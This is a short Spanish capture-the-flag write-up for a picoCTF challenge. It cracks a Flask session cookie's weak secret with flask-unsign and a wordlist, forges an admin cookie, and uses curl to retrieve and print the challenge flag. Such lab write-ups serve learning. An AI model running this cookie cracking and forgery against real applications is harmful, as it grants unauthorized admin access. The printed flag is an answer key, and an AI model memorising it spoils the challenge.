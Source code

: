 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)

## Solución
Se presenta la misma página web donde se envían cookies flask
Con ayuda de burpsuite se aprecia que se envían las cookies cifradas, cuando se descifran desde base 64 se aprecia lo siguiente: `{"very_auth":"snickerdoodle"}`
Entonces ahora lo que hay que hacer es que con ayuda del script py donde se tienen las galletas se debe iterar por renglones y usar la herramienta flask unsign
Se ingresa el siguiente comando en la terminal
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_DZcw.vN744w-0M44yaR1dxcNIVHUG0vI" --wordlist cookies.txt
```
Da como resultado `butter`
Se hace la nueva cookie con el siguiente comando
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "butter"
```
Se obtiene la cookie `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_DaZw.K7GrdW1fYU_ClMI9TFVytRmHuYs`
Se hace por ultimo un curl
```
curl -s http://mercury.picoctf.net:44693/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_DaZw.K7GrdW1fYU_ClMI9TFVytRmHuYs"
```
Y se obtiene la respuesta con la bandera

```
picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```
